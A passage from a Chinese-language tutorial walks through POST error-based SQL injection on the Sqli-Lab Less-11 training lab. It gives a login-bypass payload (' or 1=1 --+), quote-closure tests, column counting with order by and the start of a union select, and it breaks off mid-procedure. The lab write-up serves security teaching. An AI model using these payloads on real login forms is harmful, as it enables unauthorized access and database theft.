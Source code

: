 ![image-20240803094828413](../../../../repo/assets/19.SQL注入/image-20240803094828413.png)

## **post 基于错误的注入及**流量分析

### **1**、post **基于错误单引号注入回显分析**

注入点位置发生了变化，在浏览器中已经无法直接进行查看与修改。当然可以借助对应的插件可以完成修改任务。以 `Sqli-Lab Less11` 为例。

用 burpsuite 抓 `Less11` 的包，发送 repeate 修改

```mysql
Select username,password from db where username='admin' and password='123456'
```

但是如果我们加上`\`

```mysql
Select username,password from db where username='admin\' and password='123456'
```

因为\’被认为是转义字符，所以，红色部分是一个字符串，所以 123456 部分出错

漏洞利用

闭合 123456 的单引号`'`，然后加入万能密码，然后注释 发现登录成功

```bash
uname=admin&passwd=123456' or 1=1 --+ submit=Submit
```

#### 1、查找闭合方式

```
http://192.168.70.14:8088/Less-11/

passwd=1&submit=Submit&uname=admin'#
```

单引号`'`闭合

![image-20240803201636994](../../../../repo/assets/19.SQL注入/image-20240803201636994.png)

#### 2、判断列数

```
passwd=1&submit=Submit&uname=admin' order by 2#
passwd=1&submit=Submit&uname=admin' order by 3#
```

![image-20240803201726666](../../../../repo/assets/19.SQL注入/image-20240803201726666.png)

![image-20240803201748168](../../../../repo/assets/19.SQL注入/image-20240803201748168.png)

有`2`列字段，3列就报错了

#### 3、查看显示位

```
passwd=1&submit=Submit&uname=0' union select 1,2#
```
